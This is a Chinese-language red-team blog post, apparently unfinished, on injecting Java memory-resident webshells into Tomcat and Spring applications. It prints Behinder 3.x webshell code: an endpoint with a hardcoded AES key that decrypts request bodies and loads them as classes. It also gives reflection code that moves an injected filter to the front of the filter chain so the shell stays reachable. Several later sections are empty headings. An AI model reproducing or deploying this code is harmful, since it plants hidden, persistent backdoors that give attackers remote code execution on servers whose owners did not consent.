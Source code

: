 ## 论如何优雅注入 Java 内存马

### 前言 



回顾之前做红队的时候，经常遇到很多内存马明明已经注入了，但无法连接上。同时有些时候也会遇到内存马无法注入，当然这里不考虑 RASP 之类的防御机制。虽然我已经不是红队，但这些问题时常想起总是困恼着我，在这里我想尝试找一下这些问题的答案。

在此之前无法连接的情况，通常会考虑注入一个静态路径或者是一个完全虚拟的路径，一般情况下是能成功绕过。但也有一些极端的情况，还是无法注入内存马，具体情况目前我也无法得知，只能进行猜测。



---

### 传统 Java 内存马

下面是一段冰蝎3.x版本的服务端链接代码，如果要注入 **Serlvet** 内存马也就约等同于在内存中注入这段代码。

```java
    @RequestMapping("/behinder/shell2") // behinder3.0
    public void Shell2(ServletRequest request, ServletResponse response)
            throws InvalidKeyException, IOException, NoSuchPaddingException, NoSuchAlgorithmException,
            IllegalBlockSizeException, BadPaddingException, InstantiationException, IllegalAccessException {
        String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        Map objMap = new HashMap();
        HttpSession session = ((HttpServletRequest) request).getSession();
        session.putValue("u",k);
        objMap.put("session", session);
        objMap.put("response", response);
        objMap.put("request", request);
        Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(objMap);
    }

```

如果要注册 Filter 也就是在 doFilter 方法中增加内存马的逻辑，无论是 Serlvet 还是 Filter、Listener 内存马，本质上都是动态注册。

理论上传统内存马的优先级是 **Listener > Filter > Serlvet**，但正常情况下一个干净的 Java Web 的容器应该是不存在任何 Listener （这里可能不是很严谨，但至少Tomcat是没有，特殊情况除外）。并且由于 Listener 本身的特点，会很大干扰业务的正常运行，正常情况下还是不要考虑注入 Listener 内存马。

那么我们注入内存马的优先级应该变为了 **Filter > Serlvet**，注入 Serlvet 内存马得考虑原来服务中可能存在 Filter 的，得找一个默认不会进行拦截的路径进行注入。

简单举一个例子，我首先在我的服务代码中注册了一个 Filter ，只要请求路径中不含有 favicon 才会放行请求。

![image-20221102170753797](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211021707966.png)

![image-20221102170839653](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211021708701.png)

如果此时我们注入一个 Serlvet 内存马，路径为 **/favicondemo.ico** 内存马，我们是无法连接的。

![image-20221102171117109](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211021711154.png)

![image-20221102171135904](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211021711939.png)

![image-20221102172528685](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211021725775.png)

分析至此，那么最好的选择是注入 Filter 类型内存马。因为即使正常业务中存在 Listener 其目的也不会影响后续的 Filter 执行（理论上应如此）。

---

### 无法连接？

目前为了注入 Filter 之后能连接上，会将注入的内存马得执行顺序放在第一位，注入成功之后就理论不会存在连接不上的情况，当然排除有 RASP 之类的存在。

```java
                Class filterMap;
                try {
                    filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                } catch (Exception var21) {
                    filterMap = Class.forName("org.apache.catalina.deploy.FilterMap");
                }

                Method findFilterMaps = standardContext.getClass().getMethod("findFilterMaps");
                Object[] filterMaps = (Object[])((Object[])findFilterMaps.invoke(standardContext));

                for(int i = 0; i < filterMaps.length; ++i) {
                    Object filterMapObj = filterMaps[i];
                    findFilterMaps = filterMap.getMethod("getFilterName");
                    String name = (String)findFilterMaps.invoke(filterMapObj);
                    if (name.equalsIgnoreCase(filterName)) {
                        filterMaps[i] = filterMaps[0];
                        filterMaps[0] = filterMapObj;
                    }
                }
```

为什么无法连接呢？我在测试的时候发现会存在动态注册的 Filter 内存马顺序会被移动。详情如下，首先我利用工具注册了一个 Pattern 为 **/favicondemo.ico** 的内存马。之后我再次注册一个 Pattern 为 **/favicondemo1.ico** 的内存马，通过扫描 Filter 发现  Pattern 为 **/favicondemo.ico** 的内存马原来的 ID 为 1，现在变为了 7。

![image-20221103113221051](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211031132339.png)



![image-20221103113709759](https://raw.githubusercontent.com/SummerSec/Images/main/202211/202211031137866.png)

很明显的可以看到，第一次注册的 Pattern 为 **/favicondemo.ico** 的执行顺序都在服务代码注册**com.example.shirovul.filter.WebFilter** 的下面了，通过这个现象不难**推测**哪些无法连接的内存马是不是在无形之中执行顺序被改变了呢？





---

### 新型 WS 内存马



---

### Agent 内存马





---

### 总结





---

### 参考

https://xz.aliyun.com/t/11640

https://y4er.com/posts/javaagent-tomcat-memshell/
